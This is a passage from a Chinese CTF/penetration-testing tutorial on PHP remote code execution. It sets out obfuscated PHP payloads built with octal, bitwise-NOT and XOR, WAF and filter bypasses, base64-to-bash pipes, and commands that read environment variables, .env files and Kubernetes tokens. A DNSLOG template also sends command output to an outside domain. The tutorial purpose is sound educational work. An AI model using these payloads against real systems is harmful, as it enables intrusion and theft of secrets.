$_="\163\171\163\164\145\155";$__="\143\141\164\040\057\146\154\141\147";$_($__);
# 还原：
# $_ = "system"
# $__ = "cat /flag"
# $_($__) → system("cat /flag")
```

**变量名技巧：**

```php
# PHP 变量名可以只包含美元符号和下划线
# 不使用任何字母做变量名
$_ = "\163\171\163\164\145\155";           # system
$__ = "\143\141\164\040\057\146\154\141\147";  # cat /flag
$_($__);

# 或者更简洁，只用一个变量完成调用
$_="\163\171\163\164\145\155";$_("\143\141\164\040\057\146\154\141\147");
```

**不经过 Shell 的纯文件读取：**

```php
# 用 readfile 代替 system，绕过 disable_functions
$_="\162\145\141\144\146\151\154\145";$_("\057\146\154\141\147");
# 还原：readfile('/flag');
# 不需要 Shell，php 进程直接读取文件
```

#### Python 生成八进制 Payload

```python
# payload_generator.py
def to_octal(text: str) -> str:
    """将字符串转换为 PHP 八进制转义形式"""
    return ''.join(f'\\{byte:03o}' for byte in text.encode('utf-8'))

# 场景 1：执行系统命令
func = to_octal('system')
cmd = to_octal('cat /flag')
payload1 = f'$_="{func}";$_("{cmd}");'
print(f"Sysytem 命令: {payload1}")

# 场景 2：直接读取文件
func2 = to_octal('readfile')
path = to_octal('/flag')
payload2 = f'$_="{func2}";$_("{path}");'
print(f"文件读取: {payload2}")

# 场景 3：用不同变量名
func3 = to_octal('system')
arg = to_octal('id')
payload3 = f'$x="{func3}";$y="{arg}";$x($y);'
print(f"变量名变体: {payload3}")
```

#### 方法二：按位取反构造字符串（无数字版）

**原理：**对字符串使用 `~` 运算符会逐字节取反。把目标字符串的每个字节取反后得到不可打印字节，再对不可打印字节取反就还原回来。

```php
# 以 system 为例：
# s=0x73 → ~0x73 = 0x8C
# y=0x79 → ~0x79 = 0x86
# s=0x73 → ~0x73 = 0x8C
# t=0x74 → ~0x74 = 0x8B
# e=0x65 → ~0x65 = 0x9A
# m=0x6D → ~0x6D = 0x92

# PHP 中的写法：
$_=~"\x8C\x86\x8C\x8B\x9A\x92";
# $_ 此时等于 "system"
```

**完整利用：**

```php
$_=~"\x8C\x86\x8C\x8B\x9A\x92";   # system
$__=~"\x9C\x9E\x8B\xDF\xD0\x99\x93\x9E\x98";  # cat /flag
$_($__);
```

**取反 vs 八进制：选择策略：**

| 对比维度 | 八进制转义 | 按位取反 |
|---------|-----------|---------|
| 需要数字 | 是（八进制数字） | 否 |
| 需要字母 | 否 | 否 |
| 需要双引号 | 是 | 是 |
| Payload 长度 | 较短 | 较长 |
| 可读性 | 较高 | 低（不可打印字节） |
| 兼容性 | 好 | 可能被编码破坏 |

---

### 1.7.3 无数字 RCE（有字母可用）

**场景：**禁止数字（`/[0-9]/`），但字母、引号、标点仍可用。

**典型源码：**

```php
$exploit = $_GET['exploit'] ?? '';
if (preg_match('/[0-9]/', $exploit)) {
    die('No digits allowed!');
}
eval($exploit);
```

#### 最简单的情况——根本不需要数字

```php
# 下面的 payload 本身不含数字：
system('cat /flag');
readfile('/flag');
echo shell_exec('ls -la');

# 如果目标函数、命令和路径都不包含数字，直接使用即可
```

#### 方法一：布尔值构造数字

```php
# PHP 中 true 在算术运算中转换为 1
# false 转换为 0

$zero = false;           # 0
$one = true;             # 1
$two = true + true;      # 2
$three = true + true + true;  # 3
$five = true + true + true + true + true;  # 5
$ten = (true + true + true + true + true) * (true + true);  # 5 * 2 = 10
```

**实战：用布尔值延迟 5 秒：**

```php
sleep(true + true + true + true + true);
# sleep(5);
```

#### 方法二：字符串长度构造数字

```php
# strlen('.') 返回 1
$one = strlen('.');

# 构造 5：
sleep(strlen('.') + strlen('.') + strlen('.') + strlen('.') + strlen('.'));

# 更高效的构造——利用乘法（需要先构造数字）
# true+true = 2
# (strlen('.') + strlen('.')) 语法上等于构造出数字
# 但 PHP 中不能直接用 strlen('.') * strlen('.')，因为需要数字字面量
```

#### 方法三：避免数字下标

| 需要 | 无数字写法 |
|------|-----------|
| `$array[0]` | `current($array)` |
| `$array[1]` | `next($array)` |
| `$array[-1]` | `end($array)` |
| `$array[last]` | `array_pop($array)` |

#### 方法四：通配符代替路径中的数字

```bash
# 假设 flag 文件名为 /flag2.txt
# 用通配符替代数字
cat /flag?.txt
cat /flag*.txt
```

**新手避坑 18：** 通配符 `?` 和 `*` 由 Shell 展开，只在 Shell 命令中有效。`readfile('/flag?')` 中的 `?` 不会被 PHP 展开——PHP 的 `readfile()` 把 `?` 当成字面量。所以通配符绕过只适用于 `system()`、`exec()` 等启动 Shell 的命令函数。

---

### 1.7.4 无字母数字 RCE（纯标点场景）

**场景：**字母和数字同时被禁止（`/[a-z0-9]/i`），只能使用下划线、美元符号、引号、括号、运算符等标点。

**典型源码：**

```php
$exploit = $_GET['exploit'] ?? '';
if (preg_match('/[a-z0-9]/i', $exploit)) {
    die('No letters or digits!');
}
eval($exploit);
```

#### 方法一：非 ASCII 字节取反

**原理：**对不可打印的高位字节（`0x80-0xff`）使用 `~` 取反，得到可打印的字母数字字符串。因为你不能在代码中写字母数字，所以发送的是取反后的高位字节。

```php
# 目标：system
# 每个字节取反后：
# s(0x73) → 0x8C
# y(0x79) → 0x86
# s(0x73) → 0x8C
# t(0x74) → 0x8B
# e(0x65) → 0x9A
# m(0x6D) → 0x92

# payload 中写的是取反后的字节：
$_=~"\x8C\x86\x8C\x8B\x9A\x92";
# 执行 ~ 后，$_ = "system"
```

**完整 payload：**

```php
# system('cat /flag');
$_=~"\x8C\x86\x8C\x8B\x9A\x92";
$__=~"\x9C\x9E\x8B\xDF\xD0\x99\x93\x9E\x98";
$_($__);
```

**不可打印字节的 URL 编码传输：**

```
# 原始 payload（不可直接传输）：
$_=~"\x8C\x86\x8C\x8B\x9A\x92";$__=~"\x9C\x9E\x8B\xDF\xD0\x99\x93\x9E\x98";$_($__);

# URL 编码后：
%24_%3D~%22%8C%86%8C%8B%9A%92%22%3B%24__%3D~%22%9C%9E%8B%DF%D0%99%93%9E%98%22%3B%24_%28%24__%29%3B
```

**Python 生成取反 Payload：**

```python
from urllib.parse import quote_from_bytes

def negate(text: str) -> bytes:
    """对字符串逐字节取反"""
    return bytes((~b) & 0xFF for b in text.encode('utf-8'))

func = negate('system')
arg = negate('cat /flag')

payload = (
    b'$_=~"' + func +
    b'";$__=~"' + arg +
    b'";$_($__);'
)

print("取反字节 (hex):", payload.hex())
print("URL 编码:", quote_from_bytes(payload, safe=''))

# 生成 readfile 版本：
func2 = negate('readfile')
arg2 = negate('/flag')

payload2 = (
    b'$_=~"' + func2 +
    b'";$_("' + arg2 + b'");'
)

print("Readfile URL:", quote_from_bytes(payload2, safe=''))
```

#### 方法二：纯标点字符串异或

**原理：**对两个只包含标点符号的字符串进行异或（`^`），逐字节 XOR 得到目标字符串。因为两个操作数都是由可见标点组成的，所以整个 payload 可以完全使用可打印字符。

**寻找异或对：**

```php
# 目标：让 '(' ^ '[' = 's'
# '(' = 0x28, '[' = 0x5B
# 0x28 ^ 0x5B = 0x73 = 's'

# 目标：让 '&' ^ '_' = 'y'
# '&' = 0x26, '_' = 0x5F
# 0x26 ^ 0x5F = 0x79 = 'y'

# 寻找规则：
# 目标字符 XOR 一个可见标点 = 另一个可见标点
# 即：目标 byte ^ 可见标点 = 另一个可见标点
```

**system 的异或构造：**

```php
$_="(&()%-"^"[_[]@@";
# 还原为 "system"
```

**完整 payload：**

```php
# system('cat /flag');
$_="(&()%-"^"[_[]@@";
$__=("#!)"^"@@]")." /".("&,!:"^"@@@]");
$_($__);

# 分解说明：
# $_ = "(&()%-" ^ "[_[]@@"  → "system"
# ("#!)" ^ "@@]")           → "cat"
# " /"                       → 空格 + 斜杠（字面量）
# ("&,!:" ^ "@@@]")         → "flag"
# 拼接后 → "cat /flag"
```

**纯标点异或 vs 非 ASCII 取反：**

| 对比维度 | 非 ASCII 取反 | 纯标点异或 |
|---------|-------------|-----------|
| 字节范围 | 0x80-0xFF | 纯可打印 ASCII |
| 传输稳定性 | 可能被代理/编码破坏 | 稳定 |
| 构造难度 | 自动生成 | 需逐字节寻找对 |
| Payload 长度 | 较短 | 较长 |
| UTF-8 兼容 | 可能被转码破坏 | 完全兼容 |

#### 方法三：两种方式的混合使用

```php
# 根据实际过滤条件灵活组合
# 例如斜杠 '/' 无法用标点构造，直接作为字面量
$func = "(&()%-" ^ "[_[]@@";   # system
$cmd = ("#!)" ^ "@@]") . " /flag";  # cat + /flag + 拼字面量
$func($cmd);
```

#### 按位运算的 URL 编码顺序

```text
原始 Payload
    ↓
URL 编码（%xx 形式）
    ↓  Web 服务器接收
URL 解码
    ↓
$_GET['exploit'] 取值（解码后的字节）
    ↓
preg_match() 检查（检查的是解码后的内容）
    ↓
eval() 执行
```

**关键点：**如果过滤发生在 `$_GET` 取值之后（大多数情况），preg_match 看到的是经过 URL 解码的字节，所以 `%8C` 已经被解码为字节 `0x8C`，正则不会看到字符 `8` 和 `C`。

但如果 WAF 在 URL 解码前检查原始请求行，`%8C` 中包含的 `8` 和 `C` 就可能触发过滤。

---

### 1.7.5 无字母数字 RCE 完整选择策略表

| 环境状况 | 推荐方法 | 理由 |
|---------|---------|------|
| 只禁字母，数字可用 | 八进制转义 + 可变函数 | 最简单，易生成 |
| 只禁数字，字母可用 | 直接使用无数字的 payload | 通常不需要额外构造 |
| 字母数字都禁，GBK 环境 | 纯标点异或 | 避免高位字节被转码破坏 |
| 字母数字都禁，UTF-8 环境 | 非 ASCII 取反 / 异或 | 两者均可，取反更简单 |
| WAF 检查原始 URL | 纯标点异或 | 不依赖 %xx 编码 |
| 请求头/ Cookie 可控 | 外部变量注入 | 主 payload 极短 |

---

## 1.8 寻找 Flag 技巧

### 1.8.1 Flag 常见位置速查

**场景：**确认了 RCE，但不知道 flag 在哪里。需要系统化搜索。

#### 根目录

```bash
# Flag 最常放在系统根目录
cat /flag
cat /flag.txt
cat /flag.php
cat /flag.bak
cat /readflag

# 可能以隐藏文件形式存在
cat /.flag
cat /.flag.txt
```

#### 环境变量

```bash
# 查看所有环境变量
env
printenv

# 筛选包含 flag 的环境变量
env | grep -i flag
env | grep -i ctf

# 查看进程 1 的环境变量（容器中常见）
cat /proc/1/environ | tr '\0' '\n'
cat /proc/1/environ | tr '\0' '\n' | grep -i flag
```

#### Web 目录

```bash
# Apache / Nginx 默认 Web 目录
cat /var/www/html/flag.php
cat /var/www/html/secret.txt
cat /var/www/html/flag/flag.txt

# 应用根目录
cat /app/flag
cat /src/flag
cat /code/flag
```

#### 用户目录

```bash
# 当前用户 home
cat ~/flag
cat ~/flag.txt

# 普通用户
cat /home/ctf/flag
cat /home/ctf/flag.txt
cat /home/*/flag*

# root 用户（需要权限）
cat /root/flag
cat /root/flag.txt
```

#### 临时目录

```bash
# 临时文件
cat /tmp/flag
cat /tmp/flag*
ls -la /tmp/ | grep flag

# 临时操作脚本
cat /tmp/init.sh
cat /tmp/setup.py
```

#### 上级目录遍历

```bash
# 逐步向上搜索
cat ../flag
cat ../../flag
cat ../../../flag
cat ../../../../flag
cat ../../../../../flag
```

---

### 1.8.2 find 命令——全盘搜索

```bash
# 最基本——搜索文件名包含 flag 的所有文件
find / -name "*flag*" 2>/dev/null

# 搜索文件名以 flag 开头的文件
find / -name "flag*" 2>/dev/null

# 只搜索文件（不搜索目录）
find / -name "*flag*" -type f 2>/dev/null

# 按修改时间搜索
find / -type f -name "*flag*" -mmin -60 2>/dev/null    # 最近 1 小时
find / -type f -name "*flag*" -mtime -1 2>/dev/null     # 最近 1 天
find / -type f -name "*flag*" -newer /etc/hostname 2>/dev/null  # 比某文件新

# 按文件大小搜索（flag 通常 10-500 字节）
find / -type f -name "*flag*" -size +5c -size -1000c 2>/dev/null

# 限制搜索深度（避免陷入 /proc /sys）
find / -maxdepth 3 -name "*flag*" 2>/dev/null
find / -maxdepth 4 -name "*flag*" 2>/dev/null
```

---

### 1.8.3 grep 命令——内容搜索

```bash
# 搜索包含 flag{ 的文件
grep -r "flag{" / 2>/dev/null

# 搜索多种 flag 格式
grep -rE "flag\{|CTF\{|ctf\{" /var/www/ 2>/dev/null

# 只列文件名（不显示匹配行）
grep -rl "flag{" /var/www/html/ 2>/dev/null

# 忽略二进制文件
grep -r --binary-files=without-match "flag" /app/ 2>/dev/null

# 在日志中搜索 flag
grep -r "flag" /var/log/ 2>/dev/null
```

---

### 1.8.4 快速定位小技巧

```bash
# 查看隐藏文件
find / -name ".*" -type f 2>/dev/null | head -30
ls -la / | grep "^\."

# 查看最近修改的文件
ls -laRt /var/www/ 2>/dev/null | head -30

# 查看 apache/nginx 日志中是否泄露 flag
grep flag /var/log/apache2/* 2>/dev/null
grep flag /var/log/nginx/* 2>/dev/null

# 查看数据库文件
find / -name "*.db" -o -name "*.sqlite" 2>/dev/null

# 查看 .env 配置文件
cat /var/www/html/.env 2>/dev/null
cat /var/www/.env 2>/dev/null
cat /app/.env 2>/dev/null

# 查看 README 或说明文件
cat /README*
cat /var/www/README*

# image 或二进制中的 flag
strings * 2>/dev/null | grep flag
```

---

### 1.8.5 Docker 环境特色

```bash
# 判断是否在容器内
cat /proc/1/cgroup           # 看是否有 docker 字样（cgroup v1）
ls -la /.dockerenv           # 有该文件说明是容器

# 容器内常见 flag 位置
cat /flag
cat /flag.txt

# Kubernetes 环境
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# 容器命令行历史
cat ~/.bash_history
cat ~/.sh_history
history
```

---

### 1.8.6 出题人常见套路与应对

| 出题套路 | 表现 | 应对策略 |
|---------|------|---------|
| 随机文件名 | flag 文件名不是固定的 | `find / -name "*flag*"` |
| 环境变量 | `env` 中有 flag | `env`、`printenv`、`cat /proc/1/environ` |
| 藏在二进制中 | flag 在图片或 ELF 里 | `strings * | grep flag` |
| 分段存放 | flag 分多段在不同文件 | `grep -rE "flag\{.+" /` |
| 需要特殊权限 | 文件权限不可读 | `ls -la` 检查，考虑 SUID 提权 |
| 访问限制 | 只对特定 IP 返回 flag | 加 `X-Forwarded-For` 或特定 User-Agent |
| 数据库存储 | flag 在 MySQL/SQLite 里 | 连接数据库执行 SELECT |
| 隐藏文件名 | .flag、.secret 等隐藏文件 | `find / -name ".*" -type f` |
| 编码后的 flag | base64/hex 编码 | 搜索后解码 |
| 定时重置 | flag 每隔一段时间变化 | 快速获取并保存 |

---

### 1.8.7 实战高效搜索流程

从 RCE 到获取 flag 的标准操作流程：

```
Step 1: 快速侦察
    id                 → 当前用户
    pwd                → 当前目录
    ls -la /           → 根目录有什么
    env | grep flag    → 环境变量

Step 2: 搜索标志性文件
    find / -name "*flag*" -type f 2>/dev/null
    find / -name "*ctf*" -type f 2>/dev/null

Step 3: 搜索文件内容
    grep -rl "flag{" /var/www/ 2>/dev/null
    grep -rl "flag{" / 2>/dev/null | head -10

Step 4: 深入特定目录
    ls -la /home/
    ls -la /tmp/
    ls -la /opt/
    ls -la /app/

Step 5: 容器环境检查
    cat /proc/1/environ 2>/dev/null
    cat /.dockerenv 2>/dev/null

Step 6: 如果还没找到
    strings /usr/sbin/* 2>/dev/null | grep flag
    curl http://localhost:8080/flag
    # 考虑需要提权才能读取
```

---

## 1.9 WAF 绕过技巧

### 1.9.1 场景理解

**场景：**确认了 RCE 入口，但 WAF（Web 应用防火墙）或简单的输入过滤阻断了你的 payload。需要在不触发过滤规则的情况下构造可执行的命令。

**绕过思路总览：**

| 过滤类型 | 绕过方法数量 | 核心思路 |
|---------|------------|---------|
| 空格过滤 | 8+ | 用 IFS/重定向/Tab 替代空格 |
| 关键词过滤 | 6+ | 分割、编码、变量拼凑 |
| 路径/文件名过滤 | 4+ | 通配符匹配 |
| 函数名过滤 | 3+ | 同类函数替代 |

---

### 1.9.2 空格过滤绕过

**场景：**后端过滤了空格字符，比如用 `preg_replace('/\s/', '', $cmd)` 删除了所有空白。

**原理：**Shell 中用空格分隔命令和参数。如果空格被过滤，需要找到其他方式让 Shell 识别参数边界。

#### 绕过方法对照表

| 方法 | 示例 | 说明 | 复杂度 |
|------|------|------|--------|
| `${IFS}` | `cat${IFS}/flag` | IFS 内部字段分隔符 | 低 |
| `$IFS$9` | `cat$IFS$9/flag` | IFS + 位置参数明确终止 | 低 |
| `<` 重定向 | `cat</flag` | 用重定向喂数据 | 低 |
| `<>` 重定向 | `cat<>/flag` | 读写方式打开 | 中 |
| `%09` Tab | `cat%09/flag` | URL 编码 Tab | 低 |
| `%0a` 换行 | `cat%0a/flag` | URL 编码换行 | 低 |
| `{,\/flag}` | `{cat,/flag}` | Bash 花括号扩展 | 中 |
| `$u` | `cat$u/flag` | 未定义变量展开为空 | 低 |

**IFS 详解：**

```bash
# IFS = Internal Field Separator
# 默认值为：空格、Tab、换行

# 推荐用法（大括号明确变量边界）：
cat${IFS}/flag

# 带位置参数的用法（更安全）：
cat$IFS$9/flag
# $9 是第 9 个位置参数，通常为空
# $IFS$9 可以防止 Shell 把 IFS 和后面的字符串连在一起解析
# 但实际上 / 不属于变量名，所以 cat$IFS/flag 也是可行的

# 常见问题：
cat$IFS/flag          # 可行，因为 / 不是变量名组成部分
echo$IFShello         # 危险！$IFShello 会被解析为一个变量名
echo${IFS}hello       # 安全，明确变量边界
```

**花括号扩展：**

```bash
# Bash 的花括号扩展语法：{word1,word2,...}
# 逗号替代空格的效果

# 原本：cat /flag
# 改写：
{cat,/flag}

# 原本：ls -la
# 改写：
{ls,-la}
```

---

### 1.9.3 关键词过滤绕过

**场景：**过滤了 `cat`、`flag`、`/flag` 等关键词。

#### 方法一：引号/反斜杠插入

```bash
# 空引号分割——Shell 会自动拼接
c''at /fl''ag
c"a"t /fl"a"g

# 反斜杠转义（只转义需要的关键字也可）
c\at /fl\ag
\cat /\flag

# 混合使用
c''a"t" /f\l\a''g
```

#### 方法二：变量拼接

```bash
# 用变量拼关键字
a=ca;b=t;c=/fl;d=ag
$a$b $c$d
# 等价于：cat /flag

# 单变量拆分
x=cat
$c /flag

# 位置参数
ca$1t /fl$@ag
# $1 和 $@ 未定义，展开为空
```

#### 方法三：Base64 编码

```bash
# 将命令 base64 编码后通过管道执行
echo "Y2F0IC9mbGFn" | base64 -d | bash

# 生成 base64 的方法：
echo -n "cat /flag" | base64
# 输出：Y2F0IC9mbGFn

# 直接用 base64 工具：
base64 -d <<< "Y2F0IC9mbGFn"
```

#### 方法四：十六进制编码

```bash
# 使用 xxd 或 printf 解码后执行
echo "636174202f666c6167" | xxd -r -p | bash

# 生成 hex：
echo -n "cat /flag" | xxd -p
# 输出：636174202f666c6167

# printf 版：
printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67" | bash
```

#### 方法五：八进制/特殊变量

```bash
# Shell 的 ANSI-C 引用（$'...'）
$'\143\141\164' $'\57\146\154\141\147'
# 等价于：cat /flag

# printf 版：
$(printf "\143\141\164\040\057\146\154\141\147")
```

#### 方法六：函数名替代（PHP 代码执行场景）

```php
// system() 被过滤时的替代链：
passthru("cat /flag");
exec("cat /flag", $data); var_dump($data);
shell_exec("cat /flag");   // 需要 echo
echo `cat /flag`;          // 反引号
$fp = popen("cat /flag", "r"); echo fread($fp, 1024);

// eval() 被过滤时（版本允许的前提下）：
assert("system('cat /flag');");  // PHP < 8
call_user_func("system", "cat /flag");
```

---

### 1.9.4 通配符绕过

**场景：**文件名或路径被过滤，或者想减少字符数。通配符由 Shell 展开，可以绕过基于字符串匹配的过滤。

#### 通配符速查

| 通配符 | 含义 | 示例 | 匹配结果 |
|--------|------|------|---------|
| `*` | 0 个或多个任意字符 | `/f*` | `/flag`、`/flag.txt`、`/file` |
| `?` | **恰好 1 个**任意字符 | `/f???` | `/flag`（4 个字符） |
| `[abc]` | 括号内任一字符 | `[cC]at` | `cat` 或 `Cat` |
| `[a-z]` | 范围内的字符 | `[a-z]at` | `cat`、`bat`、`dat` |
| `[^abc]` | 不在括号内的字符 | `[^x]at` | `cat`、`bat`（不含 `xat`） |

#### 实战组合

```bash
# 不直接写 cat 路径
/usr/bin/cat /flag

# 用通配符代替路径
/???/??? /flag          # /bin/cat /flag
/???/??? /f???          # /bin/cat /flag
/???/?[a]? /f???        # 同上

# 匹配 flag 文件
cat /f*                 # 任意 f 开头的文件
cat /f???               # 恰好 4 字符的 f 开头文件
cat /????/f*            # 目录名 4 字符下的 f 开头文件

# 通配符 + 引号混合（双绕过）
/???/?''a''? /f''lag
/???/?a$@t /fla$1g

# 通配符列目录
ls /???/???|            # 列出 /bin/ 下 3 字符的命令
```

**新手避坑 19：** 通配符匹配到多个文件时，命令会处理所有匹配的文件。例如 `cat /f*` 如果同时匹配到 `/flag` 和 `/flag.txt`，输出会混在一起。如果匹配到目录，`cat` 会报错。所以在用通配符时要考虑匹配的唯一性。

---

### 1.9.5 命令替代大全（17+ 种 cat 替代方案）

**场景：**`cat` 命令被过滤或禁用，需要其他方式读取文件。

#### 读取文件命令速查表

| 序号 | 命令 | 用法 | 特点 |
|------|------|------|------|
| 1 | `tac` | `tac /flag` | 行序反转输出 |
| 2 | `more` | `more /flag` | 分页显示 |
| 3 | `less` | `less /flag` | 分页显示（支持前后翻页） |
| 4 | `head` | `head -n 100 /flag` | 显示前 N 行 |
| 5 | `tail` | `tail -n 100 /flag` | 显示后 N 行 |
| 6 | `nl` | `nl /flag` | 显示带行号 |
| 7 | `od` | `od -c /flag` | 八进制/ASCII 显示 |
| 8 | `sort` | `sort /flag` | 排序后输出 |
| 9 | `uniq` | `uniq /flag` | 去重输出 |
| 10 | `rev` | `rev /flag` | 每行字符反转 |
| 11 | `strings` | `strings /flag` | 提取可打印字符串 |
| 12 | `paste` | `paste /flag` | 按列合并 |
| 13 | `dd` | `dd if=/flag` | 磁盘级读取 |
| 14 | `cut` | `cut -c 1-100 /flag` | 按字符位置截取 |
| 15 | `tee` | `tee < /flag` | 从标准输入复制 |
| 16 | `expand` | `expand /flag` | Tab 转空格输出 |
| 17 | `pr` | `pr /flag` | 格式化分页 |
| 18 | `fold` | `fold /flag` | 折行显示 |
| 19 | `grep` | `grep . /flag` | 正则匹配输出 |
| 20 | `awk` | `awk '1' /flag` | 逐行处理输出 |
| 21 | `sed` | `sed -n 'p' /flag` | 流编辑器输出 |
| 22 | `php` | `php -r 'echo file_get_contents("/flag");'` | PHP 自身文件读取 |

#### Shell 内置读取方式

```bash
# 重定向输出
echo $(</flag)

# while 逐行读取
while read line; do echo $line; done < /flag

# 文件描述符
exec 5</flag; cat <&5

# here-string
$0<<<$(cat /flag)   # 间接读取

# mapfile 读取到数组
mapfile -t lines < /flag; echo ${lines[@]}
```

#### ls 替代方案

```bash
# 当 ls 被过滤时：
echo *                # 通配符展开列出当前目录文件
printf "%s\n" *       # 每行一个显示
find . -maxdepth 1    # 列出当前目录所有条目
dir                   # ls 的简化版
stat *                # 显示文件详细信息
tree                  # 树形目录
```

---

### 1.9.6 长度限制绕过

**场景：**输入有长度限制（例如只允许 10 个字符），需要极简 payload。

#### 极简 payload 示例

```bash
# 最短路径读取 flag（6 个字符）
nl /f*
# nl = 换行编号显示，/f* 通配匹配 flag 文件

# 省略空格（6 个字符）
nl</f*
# < 重定向代替空格，但 /f* 只能匹配到一个文件

# 命令 + 通配
cat/f*        # 7 个字符（有些 shell 支持连写）
```

#### 文件分段 + 组装（> 写入 + ls -t + sh）

```bash
# 当命令长度被严格限制时，将命令分段写入文件
# 利用目录排序和文件名特性组装完整的命令

# Step 1：创建以命令字符命名的文件
> echo
> "cat"
> "/f"
> "lag"

# Step 2：利用 ls -t（按时间排序）将文件名组装
ls -t > script

# Step 3：执行脚本
sh script
```

**注意事项：**

1. `>` 写入会创建文件，但如果文件名使用空格或特殊字符需要在 shell 中转义
2. `ls -t` 按修改时间排序，所以创建文件的顺序至关重要
3. 实际利用中需要在当前可写目录操作，不能选在系统只读目录
4. 这种方法依赖具体环境，不是通用的

#### Here-String 极简利用

```bash
# 利用 here-string 传参给 shell
$0<<<cat\ /f*
# 在 bash 中，$0 通常是 bash/sh
# <<< 把字符串作为标准输入传给命令
```

---

## 1.10 综合知识总结表

### RCE 全流程决策树

```
发现用户输入被拼接到执行函数中
    │
    ├── 判断入口类型
    │   ├── system()/exec()/反引号 → 命令执行
    │   │   ├── 有回显 → 直接执行命令
    │   │   ├── 无回显 → 写文件/外带/盲注
    │   │   └── 有 WAF → 空格绕过/关键词绕过/通配符
    │   └── eval()/assert() → 代码执行
    │       ├── 无限制 → system("cat /flag");
    │       ├── 无参数限制 → 无参数 RCE
    │       └── 无字母数字 → 八进制/取反/异或
    │
    └── 找到 flag
        ├── 直接读取文件
        ├── 环境变量搜索
        ├── find 全局搜索
        └── grep 内容搜索
```

### PHP 全函数分类总结

| 大类 | 函数 | 类型 | 版本依赖 | 绕过复杂度 |
|------|------|------|---------|-----------|
| 命令执行 | `system()` | 命令 | 全版本 | 低 |
| 命令执行 | `passthru()` | 命令 | 全版本 | 低 |
| 命令执行 | `exec()` | 命令 | 全版本 | 低 |
| 命令执行 | `shell_exec()` | 命令 | 全版本 | 低 |
| 命令执行 | 反引号 `` ` `` | 命令 | 全版本 | 低 |
| 命令执行 | `popen()` | 命令 | 全版本 | 中 |
| 命令执行 | `proc_open()` | 命令 | 全版本 | 高 |
| 代码执行 | `eval()` | 代码 | 全版本 | 中（语言结构） |
| 代码执行 | `assert()` | 代码 | **PHP < 8**| 中（版本判断） |
| 代码执行 | `create_function()` | 代码 | **PHP < 8**| 中 |
| 代码执行 | `preg_replace /e` | 代码 | **PHP < 7**| 中 |
| 动态调用 | `call_user_func()` | 函数 | 全版本 | 中 |
| 动态调用 | `call_user_func_array()` | 函数 | 全版本 | 中 |

### 命令分隔符完整总结

| 分隔符 | Linux 行为 | Windows 行为 | 推荐场景 |
|--------|-----------|-------------|---------|
| `;` | 顺序执行 |  无效 | Linux 首选 |
| `&&` | 成功则执行 | 成功则执行 | 条件注入 |
| `||` | 失败则执行 | 失败则执行 | 失败逃逸 |
| `|` | 管道传递 | 管道传递 | 隐藏输出 |
| `&` | **后台执行**| **顺序执行** | 注意行为差异 |
| `%0a` | 换行执行 | 换行执行 | 编码绕过 |
| 反引号 | 命令替换 | 命令替换 | 嵌入输出 |
| `$()` | 命令替换 |  PowerShell | 嵌套使用 |

### 绕过策略速查矩阵

| 限制 | 可用方案 | 推荐程度 |
|------|---------|---------|
| 空格被过滤 | `${IFS}` / `<` 重定向 / `%09` | 首选 |
| 关键词被过滤 | 引号插入 / 变量拼接 / Base64 | 首选 |
| 函数被禁用 | 同类函数替代链 | 首选 |
| 无回显 | 写文件 / HTTP 外带 / DNSLOG | 依条件 |
| 无参数 | 无参数 RCE 函数链 | 唯一方案 |
| 无字母 | 八进制转义 + 可变函数 | 首选 |
| 无数字 | 布尔值 / 字符串长度 | 首选 |
| 无字母数字 | 非 ASCII 取反 / 纯标点异或 | 依编码环境 |
| 长度限制 | 最短 payload / 文件分段组装 | 灵活组合 |
| 通配符匹配 | `?` / `*` / `[abc]` | 首选 |

### 常用命令生成脚本汇总

**八进制 Payload 生成（Python）：**

```python
def php_octal(text: str) -> str:
    return ''.join(f'\\{byte:03o}' for byte in text.encode())

# 使用
func = php_octal('system')
arg = php_octal('cat /flag')
payload = f'$_="{func}";$_("{arg}");'
print(payload)
```

**取反 Payload 生成（Python）：**

```python
from urllib.parse import quote_from_bytes

def negate(text: str) -> bytes:
    return bytes((~b) & 0xFF for b in text.encode())

func = negate('system')
arg = negate('cat /flag')
payload = b'$_=~"' + func + b'";$_("' + arg + b'");'
print(quote_from_bytes(payload, safe=''))
```

**Base64 编码命令（Shell）：**

```bash
echo -n "cat /flag" | base64
echo "Y2F0IC9mbGFn" | base64 -d | bash
```

**DNSLOG 外带脚本模板：**

```python
import requests

DNSLOG_DOMAIN = "xxxx.ceye.io"
TARGET_URL = "http://target.com/rce.php"

# 外带 whoami
payload = f"$(whoami).{DNSLOG_DOMAIN}"
requests.get(TARGET_URL, params={"cmd": f"ping -c 1 {payload}"})
```

---

## 章节总结

RCE（远程命令/代码执行）是 CTF 和渗透测试中最核心的攻击技术之一。本章从基础知识出发，逐步深入讲解了：

1. **RCE 的两大分支**：命令执行和代码执行的区别与联系
2. **PHP 执行函数体系**：7 种命令执行函数 + 6 种代码执行/动态调用函数
3. **命令注入与分隔符**：Linux 和 Windows 的命令分隔符差异与使用技巧
4. **IP 变形绕过**：7 种 IP 表示形式避免简单过滤
5. **无回显策略**：从延时确认到时间盲注的 6 种应对方案
6. **无参数 RCE**：4 类核心函数的运用与外部变量注入
7. **无字母数字 RCE**：八进制转义、按位取反、纯标点异或 3 种构造方式
8. **Flag 搜索技巧**：系统化的搜索路径和命令
9. **WAF 绕过**：空格绕过、关键词绕过、通配符、命令替代等实战技巧

**核心思维：**RCE 的实质是"输入即代码"。任何将用户输入拼接到命令或代码中的行为都存在风险。绕过是一门艺术，它考验的是你对编程语言、操作系统和 Shell 的理解深度。

> 记住一句话：**"过滤了空格不代表没有空格，禁用了 system 不代表不能执行命令，没有回显不代表没有结果。"**
